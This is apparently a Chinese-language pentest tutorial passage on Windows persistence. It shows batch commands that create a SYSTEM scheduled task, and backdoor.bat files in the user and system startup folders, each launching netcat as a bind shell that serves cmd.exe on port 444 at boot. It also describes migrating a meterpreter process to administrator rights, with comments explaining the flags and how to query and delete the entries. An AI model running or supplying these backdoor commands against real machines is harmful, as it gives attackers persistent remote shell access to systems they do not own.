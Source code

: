 ### 通过任务计划程序

```batch
schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart /f
rem schtasks 计划任务
rem tn task name
rem ru run user
rem tr task run
rem sc schedule
rem f force
schtasks /query /tn "nc"
rem cmd命令查询计划任务
rem 图形化界面查询计划任务：控制面板》管理工具》任务计划程序
schtasks /delete /tn "nc" /f
rem 删除计划任务
```

### 通过启动目录

#### 理论

> * 启动目录分用户启动目录和系统启动目录
> 
> * 查看用户启动目录：运行》shell:startup
> 
> * 查看系统启动目录：运行》shell:common startup
> 
> * winxp、03启动目录自己一个样
> 
> * 用户启动目录：%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\
> 
> * 系统启动目录：%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\

#### 写到系统启动目录

```batch
cd %ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\
echo start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe > backdoor.bat
echo exit >> backdoor.bat
rem Windows和Linux >是覆写，>>是追加
type backdoor.bat
rem type在cmd是查看文件内容，在bash是查询命令类型
del backdoor.bat
rem 删除bat脚本
```

#### 写道用户启动目录

```batch
cd %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\
echo start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe > backdoor.bat
echo exit >> backdoor.bat
rem system权限的cmd找不到用户启动目录，把meterpreter进程迁移到administrator权限的进程下，再启动cmdshell，用administrator权限的cmd
type backdoor.bat
del backdoor.bat
```
